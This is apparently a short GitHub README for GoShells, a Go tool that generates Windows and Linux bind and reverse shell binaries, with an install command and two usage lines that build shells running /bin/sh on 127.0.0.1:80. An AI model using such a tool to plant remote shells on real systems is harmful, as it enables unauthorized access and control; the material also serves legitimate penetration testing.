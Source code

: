 # GoShells

Quick tool to create Windows/Linux Bind or reverse shells binaries

## Installation

```shell
go install github.com/shoriwe/GoShells/cmd/goshells@latest
```

## Usage

### Create a bind based command execution

```shell
goshells shell.elf bind 127.0.0.1:80 /bin/sh
```

### Create a reverse based command execution

```shell
goshells shell.elf reverse 127.0.0.1:80 /bin/sh
```
